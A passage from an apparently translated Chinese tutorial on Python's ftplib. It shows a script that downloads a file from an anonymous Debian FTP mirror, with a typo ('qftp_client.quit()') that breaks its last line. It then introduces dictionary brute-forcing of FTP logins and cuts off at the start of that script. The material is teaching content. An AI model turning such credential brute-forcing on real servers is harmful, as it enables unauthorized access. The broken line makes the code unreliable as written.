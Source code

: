 `FTP()`类的参数为：远程服务器、`ftp`用户的用户名和密码。

在本例中，我们连接到 FTP 服务器，以便从`ftp.be.debian.org server`下载二进制文件。

在下面的脚本中，我们可以看到如何连接到一个**匿名**FTP 服务器，并在没有用户和密码的情况下下载二进制文件。

您可以在文件名中找到以下代码：`ftp_download_file.py`：

```py
#!/usr/bin/env python
import ftplib
FTP_SERVER_URL = 'ftp.be.debian.org'
DOWNLOAD_DIR_PATH = '/pub/linux/network/wireless/'
DOWNLOAD_FILE_NAME = 'iwd-0.3.tar.gz'

def ftp_file_download(path, username):
    # open ftp connection
    ftp_client = ftplib.FTP(path, username)
    # list the files in the download directory
    ftp_client.cwd(DOWNLOAD_DIR_PATH)
    print("File list at %s:" %path)
    files = ftp_client.dir()
    print(files)
    # download a file
    file_handler = open(DOWNLOAD_FILE_NAME, 'wb')
    ftp_cmd = 'RETR %s' %DOWNLOAD_FILE_NAME
    ftp_client.retrbinary(ftp_cmd,file_handler.write)
    file_handler.close()
    qftp_client.quit()

if __name__ == '__main__':
    ftp_file_download(path=FTP_SERVER_URL,username='anonymous')
```

# 使用 ftplib 强制 FTP 用户凭据

此库的主要用途之一是使用字典检查 FTP 服务器是否容易受到暴力攻击。例如，使用此脚本，我们可以使用用户和密码字典对 FTP 服务器执行攻击。我们使用所有可能的用户和密码组合进行测试，直到找到正确的组合。

如果我们在连接时获得“`230 Login successful`”字符串作为答案，我们就会知道该组合是一个好的组合。

您可以在文件名中找到以下代码：**`ftp_brute_force.py`：**

 **```py
import ftplib
import sys

def brute_force(ip,users_file,passwords_file):
    try:
        ud=open(users_file,"r")
        pd=open(passwords_file,"r")

        users= ud.readlines()
        passwords= pd.readlines()
